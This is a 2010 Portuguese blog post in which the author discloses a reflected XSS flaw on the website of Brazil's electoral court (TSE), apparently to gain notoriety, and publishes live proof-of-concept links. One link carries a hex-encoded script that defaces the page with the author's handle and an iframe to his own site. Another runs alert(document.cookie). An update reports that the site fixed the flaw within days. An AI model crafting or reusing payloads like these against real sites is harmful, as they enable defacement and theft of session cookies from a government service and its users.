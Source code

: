 ```yaml
---
layout: default
title: Rapidinha - TSE XSS
date: 2010-09-12 21:45
author: obrerodrigues
comments: true
categories: [Hacking]
---
```

Navegando por acaso no site do <a href="http://www.tse.gov.br/" target="_blank">Tribunal Superior Eleitora</a>l, encontrei uma falha que permite ataques do tipo XSS (já que estamos perto da eleição, bem que posso ganhar alguma fama por isso né?), resolvi postar por postar, e porque estou escrevendo um texto, sobre como tirar todo potencial desse tipo de falha, fazendo mais do que simplesmente exibir uma msgbox na tela, enfim, ai vai the proof of concept:

<a href="http://www.tse.gov.br/buscasite/cdd.jsp?usearch.p_mode=Advanced%3C%73%63%72%69%70%74%3E%64%6F%63%75%6D%65%6E%74%2E%74%69%74%6C%65%3D%22%54%53%45%20%58%53%53%65%64%22%3B%76%61%72%20%70%61%67%65%3D%22%3C%6D%61%72%71%75%65%65%3E%3C%68%31%3E%3C%63%65%6E%74%65%72%3E%42%72%65%6E%6E%30%3C%2F%68%31%3E%3C%2F%63%65%6E%74%65%72%3E%3C%69%66%72%61%6D%65%20%73%72%63%3D%68%74%74%70%3A%2F%2F%62%72%65%6E%6E%30%2E%77%6F%72%64%70%72%65%73%73%2E%63%6F%6D%3E%3C%2F%6D%61%72%71%75%65%65%3E%22%3B%64%6F%63%75%6D%65%6E%74%2E%62%6F%64%79%2E%69%6E%6E%65%72%48%54%4D%4C%3D%70%61%67%65%3B%61%6C%65%72%74%28%22%58%53%53%22%29%3B%3C%2F%73%63%72%69%70%74%3E" target="_blank">http://www.tse.gov.br/buscasite/cdd.jsp?usearch.p_mode=Advanced"%3C%73%63%72%69%70%74%3E%64%6F%63%75%6D%65%6E%74%2E%74%69%74%6C%65%3D%22%54%53%45%20%58%53%53%65%64%22%3B%76%61%72%20%70%61%67%65%3D%22%3C%6D%61%72%71%75%65%65%3E%3C%68%31%3E%3C%63%65%6E%74%65%72%3E%42%72%65%6E%6E%30%3C%2F%68%31%3E%3C%2F%63%65%6E%74%65%72%3E%3C%69%66%72%61%6D%65%20%73%72%63%3D%68%74%74%70%3A%2F%2F%62%72%65%6E%6E%30%2E%77%6F%72%64%70%72%65%73%73%2E%63%6F%6D%3E%3C%2F%6D%61%72%71%75%65%65%3E%22%3B%64%6F%63%75%6D%65%6E%74%2E%62%6F%64%79%2E%69%6E%6E%65%72%48%54%4D%4C%3D%70%61%67%65%3B%61%6C%65%72%74%28%22%58%53%53%22%29%3B%3C%2F%73%63%72%69%70%74%3E</a>

ou simplesmente:

<a href="http://www.tse.gov.br/buscasite/cdd.jsp?usearch.p_mode=Advanced%22%3E%3Cscript%3Ealert%28document.cookie%29%3C/script%3E" target="_blank">http://www.tse.gov.br/buscasite/cdd.jsp?usearch.p_mode=Advanced%22%3E%3Cscript%3Ealert%28document.cookie%29%3C/script%3E</a>

<span style="color:#ffffff;">Update 15/09/2010</span>

<span style="color:#ffffff;">A falha foi corrigida mais rápido do que eu imaginava, como minhas provas não funcionam mais, só resta esperar a turma do XSSed.com validar e postar um mirror, <a title="Xssed - Brenn0" href="http://www.xssed.com/search?key=Brenn0" target="_blank">nesse link aqui </a>você encontra os sites vulneráveis a XSS que eu submeti aos arquivos do site, brevemente o do TRE também estará lá.</span>

<strong>=*</strong>
